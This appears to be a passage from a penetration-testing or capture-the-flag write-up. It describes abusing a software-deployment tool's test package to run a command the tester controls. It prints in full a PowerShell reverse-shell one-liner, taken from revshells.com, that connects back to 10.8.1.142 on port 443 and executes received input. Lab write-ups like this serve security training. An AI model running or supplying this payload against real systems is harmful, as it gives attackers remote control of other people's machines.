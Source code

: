 ![](images/2024-02-29_16-08_svc_incentory_lnx_credential_mapping.png)

After that we created a `test package` which had as `Action` to execute a command we controlled. In this case we pulled the `PowerShell #2` payload from `revshells.com`.

- [https://www.revshells.com/](https://www.revshells.com/)

As payload we used `PowerShell #2`.

```c
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.1.142',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](images/2024-02-29_16-08_svc_incentory_lnx_deployment_package.png)
